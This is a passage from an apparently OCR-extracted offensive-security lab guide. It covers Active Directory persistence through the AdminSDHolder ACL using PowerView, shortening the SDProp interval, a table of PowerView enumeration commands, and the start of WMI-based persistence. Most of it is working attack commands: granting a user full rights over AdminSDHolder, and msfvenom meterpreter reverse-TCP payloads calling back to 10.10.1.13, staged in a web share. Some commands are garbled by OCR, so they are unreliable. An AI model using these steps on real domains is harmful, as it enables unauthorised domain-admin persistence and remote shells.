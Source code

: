 - Add User to AdminSDHolder
   ```powershell
   Add-ObjectAcI -TargetADSprefix 'CN=AdminSDHolder,CN=System' PrincipalSamAccountName Martin -Verbose -Rights All
   ```

- Check Permissions
   ```powershell
   Get-ObjectAcI -SamAccountName "Martin" -ResolveGUIDs
   ```

- Reduce SDProp Interval (Optional)
   ```bash
   REG ADD /V AdminSDProtectFrequency /T REG DWORD /F /D 300
   ```

- Verify Persistence
   - On victim machine, check if Martin is added to Domain Admins.
   - Sign in as Martin and access the Domain Controller.

- Additional PowerView Commands

---

| Commands                                  | Description                                    |
|-------------------------------------------|------------------------------------------------|
| `Get-NetDomain`                           | Retrieve info on the current domain and DCs.   |
| `Get-DomainPolicy`                        | Retrieve the policy used by the current domain.|
| `Get-NetDomainController`                 | Retrieve info on the current domain controller.|
| `Get-NetUser`                             | Retrieve info on domain users.                  |
| `Get-NetComputer`                         | List all computers in the current domain.      |
| `Get-NetGroup`                            | List all groups in the current domain.         |
| `Invoke-ShareFinder`                      | Retrieve shares on hosts in the current domain.|
| `Get-NetGPO`                              | List all GPOs in the current domain.           |
| `Get-NetGPO -ResolveGUIDs -Name $GPO.Name`| Users with modification rights for a group.    |

---

#### Privilege Escalation and Maintain Persistence using WMI

- WMI (Windows Management Instrumentation) event subscription can be utilized for installing event filters, providers, and bindings that execute code when specific events occur. Here, we are exploiting WMI event subscription to gain persistent access to the target system.

##### Steps

- In the terminal, run the following commands:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=444 -f exe > Payload.exe
    msfvenom -P windows/meterpreter/reverse_tcp Lhost=10.10.1.13 Lport=444 -f exe > wmi.exe
    ```
- Transfer both payloads to victim machine.
- Use the existing shared folder (/var/www/html/share) or create a new one with appropriate permissions:
    ```bash
    mkdir /var/www/html/share
    chmod -R 755 /var/www/html/share
    chown -R www-data:www-data /var/www/html/share
    ```
- Copy the payloads to the shared folder:
    ```bash
